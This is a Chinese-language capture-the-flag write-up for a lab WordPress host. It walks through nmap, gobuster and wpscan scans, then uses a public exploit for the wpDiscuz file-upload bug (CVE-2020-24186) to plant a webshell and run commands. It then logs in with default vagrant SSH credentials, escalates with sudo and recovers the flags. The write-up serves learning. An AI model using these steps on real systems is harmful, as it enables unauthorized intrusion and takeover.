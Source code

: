 ## BabyPentest
hackmd 連結 : [BabyPentest](https://hackmd.io/@yeyeye618/BygSydd5ixl)
![image](https://hackmd.io/_uploads/HJx4g_ucsel.png)
![image](https://hackmd.io/_uploads/H1rzOucsee.png)
有一個 `blogger.chw:8080` 的連結
![image](https://hackmd.io/_uploads/rk6m__9igx.png)
去改 `/etc/hosts`
```
echo "45.130.165.186 blogger.chw" | sudo tee -a /etc/hosts
```
![image](https://hackmd.io/_uploads/ByVNyt5oge.png)

用 nmap 掃
![image](https://hackmd.io/_uploads/B1iug7pilx.png)
有開 22 (author setting), 2222 ssh, 8080(http)

用 gobuster 掃 `45.130.165.186`
```
gobuster dir -u=http://45.130.165.186:8080 -w=/usr/share/wordlists/rockyou.txt -t 50
```
![image](https://hackmd.io/_uploads/rJ2i6_coxl.png)
gobuster 有掃到 /assets
去看看
![image](https://hackmd.io/_uploads/S10vJYcsxl.png)

在 `/fonts/blog/` 有個網站
![image](https://hackmd.io/_uploads/HJ3nJY5jll.png)
用 wordpress 架的
![image](https://hackmd.io/_uploads/rJlUgKqslx.png)


去找 wordpress 的 pentest 參考
有找到有人寫的一些整理 [wordpress pentest](https://medium.com/@far00t01/wordpress-pentesting-c57f4c11f6f1)

其中有一個工具 [wpscan](https://github.com/wpscanteam/wpscan) 
用來掃描 wordpress 架設的網站
```
wpscan --url http://blogger.chw:8080/assets/fonts/blog/
```
![image](https://hackmd.io/_uploads/S1tsZtcieg.png)

有掃到 Must Use Plugins
![image](https://hackmd.io/_uploads/rkTIMY5ixl.png)
![image](https://hackmd.io/_uploads/r1rSftcsgx.png)
但是下面沒掃到
![image](https://hackmd.io/_uploads/B1LjzFqjxe.png)

改用
```
wpscan --url http://blogger.chw:8080/assets/fonts/blog/ -e p --plugins-detection aggressive
```

![image](https://hackmd.io/_uploads/ryf_XF5jex.png)
有找到兩個套件
* akismet 5.5
* wpdiscuz 7.0.4
```
[!] Title: Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload
 |     Fixed in: 7.0.5
 |     References:
 |      - https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24186
 |      - https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/
 ```
 有一個正好有 CVE 的版本
 ![image](https://hackmd.io/_uploads/SJuxLGpolg.png)

找到對應的版本的 exploit 下載下來
```
 python3 49967.py -u http://45.130.165.186:8080/assets/fonts/blog/ -p ./?p=1
```
![image](https://hackmd.io/_uploads/SkYFdMaoel.png)

就能夠透過 CVE 對應的漏洞把 webshell 上傳到 server 上
![image](https://hackmd.io/_uploads/ByVltz6ill.png)
用 cmd 參數就能 RCE
![image](https://hackmd.io/_uploads/rJOPFMpjxe.png)
![image](https://hackmd.io/_uploads/Syzd5Mpoel.png)
可以看到有 user_flag.txt 和 3 個用戶
![image](https://hackmd.io/_uploads/BkFA8mTixe.png)
只有 vagrant 有 public key 做 ssh 登入檢驗
![image](https://hackmd.io/_uploads/r1U7P7Tsgx.png)
/etc/shadow 也沒有存
![image](https://hackmd.io/_uploads/HyRy_maogx.png)



撈出 user_flag 
![image](https://hackmd.io/_uploads/HJczifTjxg.png)
奇怪的內容

![image](https://hackmd.io/_uploads/HJf3sfaoll.png)
有可能是 base 編碼
![image](https://hackmd.io/_uploads/By1Y2Gajxe.png)
用 base64 轉出看起來是 hex 
再用 hex 轉 ascii
就可以看到 flag 的前半段了
`is1abCTF{50_h4v3_y0u_`

嘗試用 vagrant 帳號的預設密碼連 2222 port 的 ssh
```
ssh -p 2222 vagrant@45.130.165.186
vagrant@45.130.165.186's password:vagrant
```
![image](https://hackmd.io/_uploads/Hkp7uQTiel.png)
成功

權限還是不夠
![image](https://hackmd.io/_uploads/ByAJKXpseg.png)

嘗試用 `sudo -i`
![image](https://hackmd.io/_uploads/HkXStXaile.png)
竟然成功了

撈撈看 `/root`
![image](https://hackmd.io/_uploads/SJIDtXajxe.png)

有 root_flag 
撈出來可以看到跟 user_flag 類似的內容

一樣的流程再來一次
![image](https://hackmd.io/_uploads/ByxotXpigl.png)

就又後半段 flag 了
`v13w3d_chw'5_f4c3b00k_pr0f1l3}`

全部 flag : `is1abCTF{50_h4v3_y0u_v13w3d_chw'5_f4c3b00k_pr0f1l3}`
